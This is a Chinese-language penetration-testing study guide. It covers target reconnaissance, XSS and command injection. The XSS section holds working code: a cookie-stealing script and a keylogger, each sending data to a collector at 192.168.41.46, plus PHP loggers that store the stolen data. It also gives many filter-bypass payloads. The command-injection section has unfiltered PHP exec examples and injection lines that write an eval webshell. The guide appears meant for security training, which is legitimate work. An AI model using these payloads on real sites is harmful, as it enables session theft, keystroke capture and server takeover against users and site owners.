* ```
  filetype:doc|pdf|xlsx
  ```

### 3. 域名信息收集

#### (1). 备案信息号

##### a. ICP备案信息收集

* 爱站：https://icp.aizhan.com/
* 站长之家：https://icp.chinaz.com/
* ICP备案查询网：https://www.beianx.cn/search/
* 工信部ICP备案查询：https://beian.miit.gov.cn/

##### b.备案反查域名信息

* 备案信息包括单位名称、备案编号、**网站负责人**、**电子邮箱**、联系电话、法人等

* 工信部ICP备案查询：https://beian.miit.gov.cn/
* ICP备案查询网：https://www.beianx.cn/search/

#### (2). Whois信息收集

* 获取关键注册人信息，包括注册公司、注册邮箱、管理员邮箱、管理员联系手机等，甚至还能查询同一注册人注册的其他域名。域名对应的NS记录、MX记录、自动识别国内常见的托管商(万网、新网等)

* 国外who is ：https://who.is/
* 站长之家：http://whois.chinaz.com/
* 爱站：https://whois.aizhan.com/
* 微步：https://x.threatbook.cn/
* IP138网站：https://site.ip138.com/
* 腾讯云：https://whois.cloud.tencent.com/
* 狗狗查询：https://www.ggcx.com/main/integrated

#### (3). IP反查域名

* 目标可能存在多个域名绑定于同一IP上，通过IP反查可以获取到其他域名信息，比如**旁站**
* 通过获取目标真实IP后，进行反查的旁站更真实

##### a. 工具

* 站长工具：https://stool.chinaz.com/same
* dnslytics：https://dnslytics.com/
* ip138：https://site138.com
* Fofa：https://fofa.info
* 奇安信鹰图：https://hunter.qianxin.com/
* Shodan.io：https://www.shodan.io/

### 4. 子域名信息收集

#### (1). 收集原因

* 主域名防护严密，很难进入，选择从防护没那么严密的子域名入手，进行迂回攻击

#### (2). 利用点

##### a. 资产类型

* 办公系统、邮箱系统、管理系统、网站管理后台、论坛、商城等系统

##### b. 利用方式

* 维护成本低于主域名，可能存在版本迭代、配置不安全、弱密码账号管理策略等

#### (3). 收集方法

##### a. 搜索引擎枚举

* 使用谷歌语法  `site:域名`

##### b. 在线网站

* 查子域：https://chaziyu.com/
* 微步社区：https://x.threatbook.com/
* VT：https://www.virustotal.com/gui/home/search
* RapidDNS：https://rapiddns.io/subdomain

##### c. 枚举子域名工具

###### ①Layer子域名挖掘机

*   https://github.com/euphrat1ca/LayerDomainFinder
*   支持**服务接口、暴力搜索、同服挖掘**三种模式

###### ②SubDomainsBrute

* https://github.com/lijiejie/subDomainsBrute
* 支持高并发DNS爆破和识别域名泛解析

###### ③Oneforall

* https://github.com/shmilylty/OneForAll
* 利用多个API接口模块收集子域名信息

###### ④Subfinder + ksubdomain + httpx

* https://github.com/Mr-xn/subdomain_shell
* 域名发现-> 域名验证  -> 获取域名标题、状态码及响应大小 -> 响应结果  

##### d. 证书透明度收集子域

###### ①crt.sh

* https://crt.sh/

##### e. JS文件中收集子域

###### ①JsFinder

| 参数 | 含义             |
| ---- | ---------------- |
| -u   | 指定url          |
| -d   | 深度爬取         |
| *-j* | 指定从js文件获取 |

###### ②URLFinder

| 参数 | 含义                         |
| ---- | ---------------------------- |
| -d   | 指定获取的域名               |
| -f   | 批量url抓取，指定url文本路径 |
| -m   | 抓取模式                     |
| -s   | 显示状态码，all为全部        |
| -u   | 指定URL                      |

##### f. 第三方聚合应用

###### ①dnsdumpster

* http://dnsdumpster.com

###### ②dnsdb

* https://dnsdb.io/zh-cn

###### ③灯塔ARL自动化收集

* https://github.com/honmashironeko/ARL-docker

##### g. 域传送漏洞

* DNS服务器分为：主服务器、备份服务器和缓存服务器，在主备服务器之间同步数据库，需要使用**DNS域传送**
* 域传送是指后备服务器从主服务器拷贝数据，并用得到的数据更新自身数据库
* DNS服务器配置不当，导致匿名用户利用DNS域传送协议获取某个域的所有记录，通过可以实现DNS域传送协议的程序，尝试匿名进行DNS域传送，获取记录
* **Crossdomain.xml**文件用于**跨域策略文件**，主要为Web客户端(Adobe Flash Player等)设置跨域处理数据的权限


### 5.服务器信息收集

#### (1). 端口扫描

* 扫描工具：Nmap、Zenmap、masscan

##### a. 文件共享服务

| 端口号   | 端口说明                | 利用方向                       |
| -------- | ----------------------- | ------------------------------ |
| 21/22/69 | FTP/TFTP文件传输协议    | 允许匿名上传、下载、爆破和嗅探 |
| 2049     | NFS服务                 | 配置不当                       |
| 139      | Samba服务               | 爆破、未授权访问、远程代码执行 |
| 389      | LDAP目录访问协议(类RDP) | 注入、允许匿名访问、弱口令     |

##### b. 远程连接服务

| 端口号 | 端口说明        | 利用方向                                     |
| ------ | --------------- | -------------------------------------------- |
| 22     | SSH远程链接     | 爆破、SSH隧道及内网代理转发、文件传输        |
| 23     | Telnet          | 爆破、嗅探、弱口令                           |
| 3389   | RDP远程桌面连接 | Shift后门(Windows Server 2003以下版本)、爆破 |
| 5900   | VNC             | 弱口令爆破                                   |
| 5632   | PyAnywhere服务  | 抓密码、代码执行                             |

##### c. Web应用服务

| 端口号      | 端口说明                 | 利用方向                          |
| ----------- | ------------------------ | --------------------------------- |
| 80/443/8080 | 常见Web服务端口          | Web共攻击、爆破、对应服务版本漏洞 |
| 7001/7002   | Weblogic控制台           | Java反序列化、弱口令              |
| 8080/8089   | Jboos/Resin/Jettyjenkins | 反序列化、控制台弱口令            |
| 90900       | WebSphere                | Java反序列化、弱口令              |
| 4848        | GlassFish控制台          | 弱口令                            |
| 1352        | Lotus dominion邮件服务   | 弱口令、信息泄露、爆破            |
| 10000       | Webmin-Web控制面板       | 弱口令                            |

```
443 80 8081 8088 8888 8443 888 8080-8089
```

##### d. 数据库服务

| 端口号      | 端口说明    | 利用方向                    |
| ----------- | ----------- | --------------------------- |
| 3306        | MySQL       | 注入、提权、爆破            |
| 1433        | MSSQL       | 注入、提权、爆破、SAP弱口令 |
| 1521        | Oracle      | TNS爆破、注入、反弹shell    |
| 5432        | PostgreSQL  | 爆破、注入、弱口令          |
| 27017/27018 | MongoDB     | 爆破、未授权访问            |
| 6379        | Redis       | 未授权访问、弱口令爆破      |
| 5000        | SysBase/DB2 | 爆破、注入                  |

##### e. 邮件服务端口

| 端口号 | 端口说明     | 利用方向   |
| ------ | ------------ | ---------- |
| 25     | SMTP邮件服务 | 邮件伪造   |
| 110    | POP3         | 爆破、嗅探 |
| 143    | IMAP         | 爆破       |

##### f. 网络常见协议端口

| 端口号 | 端口说明        | 利用方向                              |
| ------ | --------------- | ------------------------------------- |
| 53     | DNS域名解析系统 | 允许区域传送、DNS劫持、缓存投毒、欺骗 |
| 67/68  | DHCP服务        | 劫持、欺骗                            |
| 161    | SNMP协议        | 爆破、搜集目标内网信息                |

##### g. 特殊服务

| 端口号      | 端口说明               | 利用方向              |
| ----------- | ---------------------- | --------------------- |
| 2128        | Zookeeper服务          | 未授权访问            |
| 8068        | Zabbix服务             | 远程执行、SQL注入     |
| 9200/9300   | Elasticsearch服务      | 远程执行              |
| 11211       | Memcache服务           | 未授权访问            |
| 512/513/514 | Linux Rexec服务        | 未授权访问            |
| 873         | Rsync服务              | 匿名访问、文件上传    |
| 3690        | SVN服务                | SVN泄露、未授权访问呢 |
| 50000       | SAP Management Console | 远程执行              |

#### (2). 操作系统判断

##### a. 开放端口

| Win系统常见端口 | Linux系统常见端口   |
| --------------- | ------------------- |
| IIS-80          | ssh-22              |
| rpc/135         | NETBIOS-137 138 139 |
| smb-445         |                     |
| rdp-3389        |                     |
| mssql-1433      |                     |

##### b. 大小写

* Windows对**大小写不敏感**，而Linux对**大小写敏感**

##### c. TTL值

* ping命令，**返回TTL值**，**Windows通常是128**，大于100；**Linux是64**，小于100

##### d. 其他方式

* 网站的脚本类型：asp、aspx、jsp、php
* phpinfo的信息泄露
* 等等

### 6. 网站信息收集

#### (1). CMS指纹识别

##### a. 作用

* 通过识别指纹，可以确定**目标的CMS及版本**，进一步利用公开的**POC**或**EXP**进行攻击

##### b. 工具

1. kali中的whatweb
2. 云悉：http://www.yunsee.cn/
3. 潮汐：http://finger.tidesec.net/
4. Wappalyzer插件
5. Glass：https://github.com/s7ckTeam/Glass
6. 棱洞：https://github.com/EdgeSecurityTeam/Ehole

##### c. 漏洞利用

1. **常规搜索引擎**，直接搜索识别到的CMS指纹漏洞
2. **乌云漏洞库**
3. Cnvd搜索识别到的cms指纹
4. Github搜索识别到的指纹
5. 源代码审计
   1. 全文通读——漏洞挖掘最全
   2. 敏感函数回溯——方便快捷挖掘漏洞
   3. 代码、命令执行
      * php**代码执行**函数
      * php**命令执行**函数
   4. 定向功能分析法——定向挖掘某块功能的漏洞

#### (2). 判断Web中间件

##### a. 解析漏洞

1. 了解网站的**Web服务器**是那种
2. 了解具体的Web服务器**版本**
3. 寻找对应的**解析漏洞**

#### (3). 判断脚本类型

* 根据网站URL判断
* 谷歌语法：``site:xxx filetype:php``
* 根据firefox的插件来判断
* 目录爆破/文件爆破
* 漏洞扫描器(awvs、xray、appscan)

#### (4). 判断数据库类型

##### a. 类型

###### ①Access

* 全名是Microsoft Office Access，小型数据库，>100M时性能下降，**后缀名：.mdb**，一般是asp网页文件使用

###### ②SQL Server

* 关系型数据库管理系统(DBMS)，后缀名：**.mdf**，默认端口**1433**

###### ③MySQL

* DBMS，属于Oracle旗下产品，默认端口**3306**

###### ④Oracle

* DBMS，适用于大型网站，默认端口**1521**

##### b. 判断方式

###### ①端口

| 数据库 | 端口 |
| ------ | ---- |
| MSSQL  | 1433 |
| MySQL  | 3306 |
| Oracle | 1521 |

###### ②脚本类型

| 脚本      | 数据库             |
| --------- | ------------------ |
| ASP、ASPX | ACCESS、SQL Server |
| PHP       | MySQL、PostgreSQL  |
| JSP       | MySQL、Oracle      |

###### ③漏洞扫描器

#### (5). 目录结构

###### ①常见敏感文件

* .SVN泄露
* .git泄露
* 网站备份压缩文件
* 御剑7kbwebpathscanner
* .DS_Store文件
* WEB-INF文件
* Web.config配置文件
* 配置文件泄露

###### ②常见工具

* **Burpsuite**
* **御剑**
* Dirbuster java
* Dirb
* dirsearch
* 7kbscan
* **搜索引擎**

### 7. 真实IP信息收集

#### (1). CDN绕过

##### a. 常规方法

###### ①国外访问或多地区访问

* 如果只针对国内用户的访问加速，使用国外代理网站(Monitor:https://asm.ca.com/en/ping.php)则可以获取到**服务器真实IP**

###### ②历史DNS记录查找

###### ③子域名查找

* 如果分站没挂载CDN，但**和主站在同一C段下**，则可以通过子域名获取分站IP

###### ④网站漏洞查找

* 通过**网站漏洞**，扫描网站**测试文件**，例如phpinfo、test等，从而找到目标真实IP

###### ⑤网站邮件查找

* 查找**邮件头**中的**邮件服务器域名IP**

##### b. 非常规方法

###### ①扫描全网

* 在线网站：钟馗之眼、shodan、fofa
* 直接尝试用IP访问，看看响应的页面和访问域名返回的是否一样

###### ②证书查询

###### ③RSS订阅

###### ④网站源码

#### (2). 判断是否存在CDN

##### a. 多地ping

* http://ping.chinaz.com/
* https://ping.aizhan.com/
* 结合**fofa搜索对应IP地址**辨别真实IP地址

##### b. Nslookup

* 获取到的DNS域名解析结果中返回多个IP的，一般存在CDN服务

##### c. Header头信息

* 请求响应包**header头**中存在CDN服务商信息
* 报错信息，页面状态码为**400错误**，一般是CDN
* 若asp或者asp.net网站返回头的Server不是IIS，而是Nginx，即是使用了nginx反向代理到CDN

##### d. 在线检测工具

* https://www.cdnplanet.com/tools/cdnfinder/
* https://tools.ipip.net/cdn.php

#### (3). 真实IP收集

##### a. DNS历史记录

* http://viewdns.info/iphistory/?domain=
* https://securitytrails.com/
* https://x.threatbook.com/
* https://site.ip138.com/

##### b. 网络空间测绘搜索引擎

###### ①网站

* https://fofa.info
* https://search.ccenysy,io
* https://quake.360.net
* https://hunter.qianxin.com
* https://www.shodan.io

###### ②用法

* **子域名**、https证书、网站标题、**网站图标**、**ICP备案信息**、html正文内容、js/css/html静态资源特征值

###### ③fofa语法

```
domain=="ichunqiu.com"	//搜索根域名为“ichunqiu.com”的网站
host="ichunqiu.com"		//从url中搜索
cert=="ichunqiu.com"	//从https证书中搜索
cert=="https证书序列号值10进制"	//利用证书序列号定位
icp="京ICP证150695号"	 //利用备案号定位
title="在线安全培训平台"	//利用网站标题特征定位
icon_hash="-1941347393"		//利用网站icon图标特征定位
body="会员登录_i春秋"		//利用html正文特征定位
body="<div class=header_hostsearch J_header_hotsearch>"	//利用网站静态资源文件定位
fid=""		//利用fofa网站指纹定位
```

#### (4)Host碰撞

##### a. 现象

* IP访问响应多为：nginx、4xx、500、503、各种意义不明的Route json提示
* 域名解析到内网地址
* 有服务器真实IP，但找不到内网域名

##### b. 原因

* 中间件对IP访问做了限制，不能直接通过ip访问，必须使用域名进行访问。此时使用HOST碰撞技术，通过**将域名和IP进行捆绑碰撞，一旦匹配到后端代理服务器上的域名绑定配置**，就可以访问到对应的业务系统，从而发现隐形资产

##### c. 手法


### 8. C段/旁站信息收集

###### ①概念

```
旁站：	和目标网站在同一服务器上的其他网站
C段：	和目标服务器ip处在同一个C段的其他服务器
```

###### ②查询方式

1. 利用Bing.com，语法为 

   ```
   http://cn.bing.com/search?q=ip:1.1.1.1
   ```

2. 站长之家http://s.tool.chinaz.com/same

3. 利用Google.com.语法为

   ```
   site:123.123.123.*
   ```

4. 利用Nmap，语法为

   ```
   nmap -p 80,8080 -open ip/24
   ```

5. K8工具、御剑、北极熊扫描器等

6. 在线网站：http://www.webscan.cc/

### 9. 企业信息收集


## 九、XSS

### 1. 概述

#### (1)DOM

##### a. windows对象

###### ①location

* 显示**定位信息**

  | 方法              | 含义               |
  | ----------------- | ------------------ |
  | location.ostname  | 返回web主机的域名  |
  | location.pathname | 返回当前页面的路径 |
  | location.port     | 返回web主机的端口  |
  | location.protocol | 返回使用的web协议  |

  

###### ②navigator

* 包含有关**访问者浏览器**的信息

  | 对象                     | 含义            |
  | ------------------------ | --------------- |
  | navigator.appCodeName    | 浏览器代号      |
  | navigator.appName        | 浏览器名称      |
  | navigator.appVersion     | 浏览器版本      |
  | navigator.cookieEnabled  | 是否启用Cookies |
  | navigator.platform       | 硬件平台        |
  | navigator.userAgent      | 用户代理        |
  | navigator.systemLanguage | 用户代理语言    |

###### ③document

#### (2)XSS

##### a. 介绍

* XSS又叫CSS(Cross Site Script)，全称**跨站脚本攻击**，是指攻击者往**WEB页面或者URL**里面插入**恶意JS代码**，如果WEB应用程序对于用户**输入的内容没有过滤**，当正常用户浏览该网页时，嵌入到**Web页面的恶意JS代码**会被执行，从而达到恶意攻击正常用户的目的

##### b. 位置

###### ①数据交互

* get post cookie headers方法
* 富文本编辑器
* 各类标签插入和自定义

###### ②数据输出

* 用户资料
* **搜索框**
* 关键词、标签、说明

##### c. 原理

###### ①图形介绍


###### ②文字描述

* XSS，是指攻击者通过在**Web页面中写入恶意脚本**，造成用户在浏览页面时，获取控制用户浏览器进行操作的攻击方式

##### d. 产生条件

1. 可以控制的输入点
2. 输入能返回到前端页面上，**被浏览器当做脚本语言解释执行**

##### e. 危害

1. 获取用户Cookie

2. 键盘记录

3. 客户端信息探查

4. XSS组合其他漏洞getshell

5. 劫持用户会话，执行任意操作

6. 刷流量，执行弹窗广告

7. 传播蠕虫病毒

   ...

##### f. 防御

1. 使用**XSS Fileter**
   * **过滤**用户(**客户端**)提交的有害信息
2. 输入**过滤**
   * 对用户输入进行过滤
3. 输入**验证**
   * 对用户提交的信息进行有效验证(非法字符、字符串长度、输入格式)
4. 输出**编码**
   * 使用对应的**HTML实体**代替字符

### 2. 检测方法

* **工具与手动相结合**(非常规XSS漏洞，例如提交留言时的短信验证、验证码填写等)

#### (1). 手工监测

* 考虑输入在哪里，输出的数据在哪里

###### ①已知输出位置

* 输入敏感字符，请求后查看HTML源码(`Ctrl + U`)，看**是否被转义**

###### ②未知输出位置

#### (2). 自动检测

* APPSCAN、AWVS、BurpSuite等**大类漏扫工具**
* XSStrite等**专扫工具**

### 3. 分类

| 类型   | 存储区                  | 插入点         |
| ------ | ----------------------- | -------------- |
| 反射型 | URL                     | HTML           |
| 存储型 | 后端数据库              | HTML           |
| DOM型  | 后端数据库/前端存储/URL | 前端javaScript |

#### (1)反射型

##### a. 概念

* **非持久性**、参数型的跨站脚本

##### b. 存在位置

* 常见于通过**URL传递参数**的功能，如网站搜索、跳转等

##### c. 攻击手法

* 需要**欺骗用户去点击恶意链接**才能触发XSS代码，一般容易出现在搜索框


#### (2)存储型

##### a. 概念

* 持久性，能够将恶意代码写进数据库或文件，永久保存在数据介质中

##### b. 存在位置

* **数据写入地点**，例如留言板、评论区或文章发表处

##### c. 攻击手法

* 通过**数据写入点**，将精心构造的XSS代码**保存到数据库**中，当其他用户**再次访问**时，就会**触发并执行**恶意的XSS代码


#### (3)DOM型

##### a. 概念

* **不经过后端**，输出点在**DOM**，通过**url传入参数**去控制触发，属于反射型XSS

##### b. 存在位置

* 存在DOM操作的地方

##### c. 攻击手法

1. 攻击者构造特殊的URL，其中包含恶意代码，用户点击恶意链接
2. 用户浏览器接收到响应后解析执行，前端JS取出URL中的恶意代码并执行
3. 恶意代码窃取到用户数据并发送到攻击者的网站，来进行进一步的操作

##### d. 常用DOM方法

| 方法                     | 含义                                                    |
| ------------------------ | ------------------------------------------------------- |
| getElementById()         | 返回带有指定ID的元素                                    |
| getElementsByTagName()   | 返回包含带有指定标签名称的所有元素的节点列表(集合/数组) |
| getElementsByClassName() | 返回包含有指定类名的所有元素的节点列表                  |
| appendChild()            | 把新的子节点添加到指定节点                              |
| removeChild()            | 删除子节点                                              |
| replaceChild()           | 替换子节点                                              |
| insertBefore()           | 在指定的子节点前插入新的子节点                          |
| createAttribute()        | 创建属性节点                                            |
| createElement()          | 创建元素节点                                            |

#### (4)区别

##### a. 存储型与反射型

* 存储型XSS的恶意代码在数据库，而反射型XSS的恶意代码在URL里

##### b. DOM型与其他

* DOM型XSS攻击，取出和执行恶意代码**由浏览器完成**，属于前端**JavaScript自身的安全漏洞**，另外两种属于**服务端的**安全漏洞

### 4. 简单利用

#### (1)获取管理权限

* 通过获取**Cookie**，从而获取管理员权限

##### a. Cookie作用

* 记录用户敏感信息，当再次访问网站时，浏览器会自动监听这个文件，并将存储在本地的Cookie信息发送给网站进行进一步的判断。**持久型Cookie**以文本形式存储在硬盘上，由浏览器存取；**临时型Cookie**也称会话Cookie，存储在内存中，仅供当次浏览器运行使用。

##### b. 实例

```php
index.php页面，模拟真实用户的使用，但留有JS后门
<?php
if(isset($_POST['submit'])){
    setcookie("name","goodjob");
}
?>
<html>
<script type="text/javascript" src="cookie.js"></script>    
<meta charset="utf-8">
<form action="#" method="post" id="form1">
    <input type="text" name="username" />
    <input type="password" name="password" />
    <input type="submit" name="submit" value="submit" />
</form>
</html>

//cookie.js文件，执行恶意操作(获取到cookie并通过指定url传递出去)
var img= document.createElement('img');
img.width= 0;
img.height= 0;
img.src='http://192.168.41.46/xss/cookie/cookie.php?cookie=' 
+ encodeURIComponent(document.cookie);

//cookie.php文件，接收cookie.js传递出的数据，并存储在txt文件中
<?php
$cookie = $_GET['cookie'];
$log = fopen('cookie.txt','a');
fwrite($log,$cookie.PHP_EOL);
fclose($log);
?>
```

#### (2)获取键盘记录

* 利用**ajax发送HTTP**请求

##### a. 发送请求

* 使用**open()和send()**方法

  

###### ①GET请求

```js
xmlhttp.open("GET","url地址",true);
xmlhttp.send();
```

###### ②POST请求

```js
xmlhttp.open("POST","url地址",true);
xmlhttp.setRequestHeader("Content-type","application/x-www-form-urlencoded");
xmlhttp.send("fname=Henry&lname=Ford");

```

##### b. 接受请求

* 使用XMLHttpRequest对象的**ResponseText**和**ResponseXML**属性


###### ①onreadystatechange

* readystate有5个取值，分为6个阶段

  1. 取值对应

     | 取值 | 含义                     |
     | ---- | ------------------------ |
     | 0    | 请求未初始化             |
     | 1    | 服务器连接已建立         |
     | 2    | 请求已接收               |
     | 3    | 请求处理中               |
     | 4    | 请求已完成，且响应已就绪 |

  2. 阶段分类

     创建 -> 初始化请求 -> 发送请求  -> 接收数据  -> 解析数据  -> 完成

##### c. 实例

```php
//index.html网页模拟用户真实体验
<html>
    <head></head>
    <script type="text/javascript" src="log.js"></script>    
    <meta charset="utf-8">
    <body>
        <form action="#" method="post" id="form1">
            <label>输入用户名</label>
            <input type="text" name="username" />
            <br>
            <label>输入密码</label>
            <input type="text" name="password" />
            <br><br>
            <input type="submit" name="submit" value="submit" />
        </form>
    </body>
</html>

//log.js文件执行恶意操作(获取到用户数据并通过指定url传递出去)
document.onkeypress=function(evt){
    evt=evt?evt:window.event;
    key=String.fromCharCode(evt.keyCode?evt.keyCode:evt.charCode);
    if(key){
        var http = new XMLHttpRequest();
        var param = encodeURI(key);
        http.open("POST","http://192.168.41.46/xss/keyboard/log.php",true);
        http.setRequestHeader("Content-type","application/x-www-form-urlencoded");
        http.send("key="+param);
    }
}
//log.php文件，log.js传递出的数据，并存储在txt文件中
<?php
$key=$_POST['key'];
$logfile='result.txt';
$fp=fopen($logfile,"a");
fwrite($fp,$key);
fclose($fp);
?>
```

#### (3)获取前端源码

#### (4)获取内网IP

#### (5)组合其他漏洞getshell

#### (6)水坑/钓鱼攻击

#### (7)其他利用


### 5. XSS与标签

#### (1). 运行位置

* 独立的``<script>``标签
* 某些标签内部

#### (2). 常用事件

| 事件名      | 含义                     |
| ----------- | ------------------------ |
| onclick     | 鼠标点击触发             |
| onmousemove | 当鼠标移动就触发         |
| onload      | 页面加载完成后触发       |
| onerror     | 页面加载错误时触发       |
| onblur      | 元素失去焦点时运行的脚本 |

##### a. onclick

* `<a>`、`<address>`、`<b>`、`<bdo>`、`<big>`、`<blockquote>`、`<body>`、`<button>`、`<caption>`、`<cite>`、`<code>`、`<dd>`、`<dfn>`、`<div>`、`<dl>`、`<dt>`、`<filedset>`、`<form>`、`<h1>`、`<hr>`、`<i>`、``、`<input>`、`<kbd>`、`<label>`等等

##### b. onload

* `<body>`、`<frame>`、`<frameset>`、`<iframe>`、``、`<link>`、`<script>`

##### c. onerror

* ``、`<object>`、`<style>`

##### d. 其他事件标签

* https://www.runoob.com/jsref/dom-obj-event.html

#### (3). JS伪协议

* 伪协议不同于网上真实存在的协议，而是为**关联应用程序而使用的**，例如tencent://(关联QQ)、**data:**(用base64编码在浏览器输出二进制文件)、**javascript:**

  ##### a. data://伪协议

  ```html
  1. 
  	<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>
  
  2. 
  	<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></iframe>
  
  3. 
  	<iframe src="data:text/html,<script>alert(1)</script>"></iframe>
  
  4. 
  	<iframe src="data:text/html,%3Cscript%3Ealert(1)%3C%2Fscript%3E"></iframe>
  ```

  ##### b. javascript伪协议

  ```html
  <a href="javascript:alert('a')">1</a>
  </img>
  ```

#### (4). 标签内执行js

1. 闭合属性、闭合标签，无法闭合可能进行了htmlencode编码(htmlspecialchars函数)
2. 利用时间onload、onerror、onblur、onclick等
3. 特殊属性src/href/action
4. javascript伪协议

### 6. XSS构造法

#### (1).利用<>构造标签

* **没有任何过滤**机制时使用

#### (2).伪协议

* 使用**javascript:**等伪协议构造XSS

* 支持的标签：**src**、**href**、background等

  ```html
  <a href="javascript:alert(/xss/)">touch me!</a>
  </img>		//仅在IE6下成功
  ```

#### (3).事件利用

* 可以利用html中某些**动作时间**，绑定**恶意脚本**

* 常见事件类型

  | window事件   | 对window对象触发的事件         |
  | ------------ | ------------------------------ |
  | Form事件     | HTML表单内的动作触发事件       |
  | Keyboard事件 | 键盘按键                       |
  | Mouse事件    | 由鼠标或类似用户动作触发的事件 |
  | Media事件    | 由多媒体触发的事件             |

  ```html
  
  <input type="text" onkeydown="alert(/xss/)" />
  <input type="text" onkeyup="alert(/xss/)" />
  <input type="button" onclick="alert(/xss/)" />
  
  ```

#### (4).利用CSS触发(已过时)

#### (5)其他标签及手法

* 随着前端语言的更新速度，会有**新的标签和事件**出现

  ```html
  <svg onload="alert(/xss/)" >	//svg是h5语言中的标签
  <input onfocus=alert(/xss/) autofocus >	//自动触发
  ```

### 7. XSS变形

#### (1)大小写转换

* 将payload进行大小写转化

  ```html
  
  <a hREf='JaVaScriPt:alert(/xss/)'>click me</a>
  ```

#### (2)引号的使用

* HTML对引号不敏感，但过滤函数对引号严格

  ```html
  
  
  
  ```

#### (3)左斜线代替空格

```html

```

#### (4)回车的使用

* 添加**水平制表符**和**回车符**来绕过关键字检测

```html
	
	<a href="javascript:alert(/xss/)">clike me</a> =>  
	<a href="j	a	v	a	s	c	r	i	p	t	:	alert(/xss/)">clike me</a>
	<a href="javascript:alert(/xss/)">clike me</a>
```

* **一些函数不可以加回车**(onmoveover、onerror等)

#### (5)双写绕过

* 针对只做了**一次过滤**的情况

* ```html
  <script>alert(1)</script>	=>  <scr<script>ipt>alert(1)</scr</script>ipt>
  
  ```

#### (6)CSS中的变形


```html
a.使用全角字符
    "><"
b.注释会被浏览器忽略
    "><"
c. 样式表中的[\]和[\0]
    "><style>@import 'javasc\ri\0pt:alert*(/xss/)';</style><"
```

#### (7)对标签属性值进行转码

* 对标签值使用**十进制**或**十六进制**表示

  ```html
  1. 转码
      "><a href="javascript:alert(/xss/)">click me</a><" => 
      "><a href="j&#97;v&#x61;script:alert(/xss/)">click me</a><"
      "><a href="&#1;j&#97;v&#x61;s&#9;c&#10;r&#13;ipt:alert(/xss/)">click me</a><"
  2. 进阶变形
       "></img><" => 
       "></img><"	
          or
      "></img><"
  ```

  | 符号            | ASCII码 | 十进制   | 十六进制 |
  | --------------- | ------- | -------- | -------- |
  | a               | 97      | `&#97;`  | `&#61;`  |
  | e               | 101     | `&#101;` | `&#x65;` |
  | Tab(水平制表符) | 9       | `&#9;`   |          |
  | 换行            | 10      | `&#10;`  |          |
  | 回车            | 13      | `&#13;`  |          |
  | SOH             | 1       | `&#1;`   |          |
  | STX             | 2       | `&#2;`   |          |

#### (8)拆分跨站

* 当应用程序**没有过滤**关键字符，却对**输入字符长度有限制**时，可以使用**拆分法**

  ```html
  <script>z='alert'</script><script>z=z+'(/xss/)'</script><script>eval(z)</script>
  ```

#### (9)HTML编码

##### a. 十进制

* 标识符：``&# + Ascii码``

  ```html
  <a href="javascript:alert(/xss/)">click me</a>	=> 
  1. 
  	<a href="j&#97;v&#97;script:alert(/xss/)">click me</a>
  2.
  	 
      <script>eval(String.fromCharCode(97,108,101,114,116,40,49,41))</script>
          or
      
      
  ```

##### b. 十六进制

* 标识符：``&#x``

  ```html
  <a href="javascript:alert(/xss/)">click me</a>	=> 
  1. 
  	<a href="j&#x61;v&#x61;script:alert(/xss/)">click me</a>
  2. 
  	
  		or
  	<script>eval("\x61\x6c\x65\x72\x74\x28\x31\x29")</script>
  ```

##### c. 其他编码

###### 	①Unicode编码

```html

<script>eval("\u0061\u006c\u0065\u0072\u0074\u0028\u0031\u0029")</script>
```

###### 	②jsfuck混淆

* 将js代码转换成混淆之后的格式
* 在线转换网站http://www.jsfuck.com/


## 十、命令执行漏洞

### 1. 概述

#### (1). 概念

* 代码层**过滤不严**；应用程序直接或间接使用了**动态执行命令的危险函数**，并且这个函数的运行**参数是可控**的，攻击者可以通过**构造特殊命令字符串**的方式，将该字符提交到系统从而执行外部程序或系统命令实施攻击、非法获取数据

#### (2). 危害及防御

##### a. 危害

1. 继承Web服务器**程序权限**(**Web用户权限**)，去**执行系统命令**
2. 继承Web服务器权限，读写文件
3. **反弹Shell**
4. 控制整个网站
5. 控制整个服务器

##### b. 防御

1. 尽量**少使用执行命令函数**或者**禁用disable_functions**
2. 在进入执行命令的函数之前，对**参数进行过滤**，对**敏感字符进行转义**
3. 参数值尽量使用**引号包括**，并在拼接前调用**addslashes进行转义**

#### (3). 涉及函数

```php
<?php
//1. system，自带输出
if(isset($_GET['cmd'])){
    $cmd= $_GET['cmd'];
    system($cmd);
    echo '<br><br>';
}
//2. exec，无输出，且仅输出最后一行
if(isset($_GET['cmd'])){
    $cmd= $_GET['cmd'];
    print exec($cmd);
    echo '<br><br>';
}
//3.shell_exec，无回显
if(isset($_GET['cmd'])){
    $cmd= $_GET['cmd'];
    echo shell_exec($cmd);
    echo '<br><br>';
}
//4. passthru，直接将结果输出
if(isset($_GET['cmd'])){
    $cmd= $_GET['cmd'];
     passthru($cmd);
     echo '<br><br>';
}
//5. popen，返回一个文件指针
if(isset($_GET['cmd'])){
    $cmd= $_GET['cmd'].">>1.txt";
     popen($cmd,'r');
     echo '<br><br>';
}
//6. 反引号，原理是调用的shell_exec函数
if(isset($_GET['cmd'])){
    $cmd= $_GET['cmd'];
    print `$cmd`;
    echo '<br><br>';
}
?>
```

#### (3). 多命令执行语法

##### a. windows

| 命令格式                 | 含义                                           |
| ------------------------ | ---------------------------------------------- |
| command1**&**command2    | 先后执行，无论command1是否成功                 |
| command1**&&**command2   | 先后执行，command1成功，才执行command2         |
| command1**\|\|**command2 | 先后执行，command1失败，才执行command2         |
| command1**\|**command2   | \|是管道符，将command1的执行结果传递给command2 |

##### b. Linux

| 命令格式                 | 含义                                       |
| ------------------------ | ------------------------------------------ |
| command1**;**command2    | 先后执行，无论command1是否成功             |
| command1**&&** command2  | 先后执行，command1成功，才执行command2     |
| command1**&**command2    | 先执行command1并放置后台，在执行command2   |
| command1**\|\|**command2 | 先后执行，command1失败，才执行command2     |
| command1**\|**command2   | 管道符，将command1的执行结果传递给command2 |

```php
127.0.0.1;echo '<?php @eval($_REQUEST['cmd']); ?>' > shell3.php	√
127.0.0.1;echo "<?php @eval($_REQUEST['cmd']); ?>" > shell3.php	×
127.0.0.1;echo "<?php eval(\$_POST["cmd"]); ?>" > shell3.php	√  
```

### 2. Linux变形

####  (1)bash通配符

| 通配符 | 通配符解释                      | 案例                          | 案例解释                       |
| ------ | ------------------------------- | ----------------------------- | ------------------------------ |
| *      | 代表**0到无穷多个**任意字符     | /bin/cat /etc/*wd             | 查看/etc文目录下以wd结尾的文件 |
